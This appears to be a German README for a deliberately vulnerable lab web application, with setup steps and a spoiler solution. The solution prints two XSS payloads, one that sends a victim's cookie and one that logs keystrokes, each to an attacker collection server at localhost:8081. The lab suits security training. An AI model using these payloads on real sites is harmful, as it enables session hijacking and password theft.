# IT-Museum

## Beschreibung des Settings

Die Anwendung ist eine vulnerable Webseite, wo der Angreifer bzw die Angreiferin den Zugang zu geheimen Informationen erlangen soll, welche in einem Container gespeichert sind.

# Setup
Damit die Anwendung genutzt werden kann, muss in der Datei modules.txt (im Ordner makeVM) das Skript dre.sh auskommentiert und xss2.sh eingefügt werden.
Danach muss man die Datei makeVM.sh ausführen, welche sämtlichen Dateien in der VM installiert.

# Lösung/Achtung Spoiler!!!

Auf der Seite von Mark Zuckerberg muss im Kommentarbereich folgender Schadcode gepostet werden:
```
<script>document.write('<img src="http://localhost:8081/cookies/' + document.cookie + '" alt="Comment" />')</script>
``` 
Da der Kommentarbereich durch ein Mitglied des Museums (repräsentiert durch einen im Hintergrund laufenden Bot) ständig gelesen wird, wird dadurch dessen cookie abgefangen. Diesen kann man über den bereitgestellten Evil-Server unter
http://localhost:8081/cookies/ auslesen (oder man verwendet einen eigenen Server).
Mithilfe einer Browseranwednung (zB. Cookie Editor für firefox) kann der gestohlene Cookie im eigenen Browser implementiert werden, wodurch man dann als Museumsmitarbeiter
angemeldet ist. Danach hat man Zugriff auf den internen Bereich, wo sich der geheime Container befindet. Diesen muss man auswählen, dann wird man nach einem Passwort gefragt. Nun kopiert 
man 
```   
<script> var keys=''; document.onkeypress = function(e) { get = window.event?event:e; key = get.keyCode?get.keyCode:get.charCode; key = String.fromCharCode(key); keys%2B=key; }; window.setInterval(function(){ new Image().src = 'http://localhost:8081/keystrokes/%27%2Bkeys; keys = ''; }, 1000);</script> 
```    
hinter den Link des Containers, wodurch die getätigten Tastatureingaben der Person (der Admin), welche auf den Link klickt, an
http://localhost:8081/keystrokes/ gesendet werden. Der Admin wird durch einen weiteren Bot repräsentiert. Nun hat man das Passwort, um die geheime Kiste zu öffnen.

Sollte ein eigener Server genutzt werden, stehen dafür die Ports 8080 und 8081 zur Verfügung, in dem Fall muss auch die URL angepasst werden. 